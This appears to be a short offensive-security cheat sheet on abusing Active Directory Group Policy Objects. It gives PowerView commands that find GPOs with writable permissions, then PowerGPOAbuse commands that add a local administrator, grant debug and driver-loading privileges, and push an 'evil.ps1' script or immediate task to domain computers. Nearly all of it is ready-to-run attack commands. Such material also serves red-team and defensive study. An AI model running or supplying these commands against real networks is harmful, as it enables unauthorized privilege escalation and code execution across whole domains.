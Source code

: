 # Note:
*if connecting from a windows host:*
1. set DNS to the domain controller's IP
2. start a `runas.exe /netonly /user:<DOMAIN_FQDN>\<USERNAME> powershell.exe`
3. add `-domain` flag to every powershell module you use

# Find vulerable GPOs using PowerView [Github Raw](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

# Abuse GPO with PowerGPOAbuse [Github](https://github.com/rootSySdk/PowerGPOAbuse)
# Adding a localadmin 
```powershell
Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
```
# Assign a new right (not test --> might break stuff)
```powershell
Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
```
# Adding a New Computer/User script (not tested)
```powershell
Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'
```
# Create an immediate task (not that reliable)
```powershell
Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
```